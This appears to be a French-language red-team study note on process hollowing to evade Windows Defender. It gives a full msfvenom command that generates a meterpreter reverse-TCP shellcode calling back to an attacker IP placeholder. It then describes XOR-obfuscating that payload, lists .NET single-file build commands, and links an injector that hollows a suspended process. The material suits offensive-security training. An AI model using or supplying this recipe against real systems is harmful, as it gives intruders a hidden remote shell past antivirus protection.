 # Process Hollowing

Contournement de Windows Defender avec une injection de shellcode préalablement obfusqué avec une fonction XOR.

```sh
msfvenom --platform windows -a x64 -p windows/x64/meterpreter/reverse_tcp LPORT=4443 LHOST=<ATTACKER-IP> EXITFUNC=thread -f csharp
```

Le script [XorCoder](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs) pour obfusquer son payload avec une fonction XOR/

Créer un nouveau projet `.NET` en mode console dans et compiler le projet sous la forme d'un seul fichier exécutable intégrant ses librairies

```c#
dotnet new console
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```

Le script de [Process Hollowing](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs) pour injecter notre shellcode dans un processus en stand-by


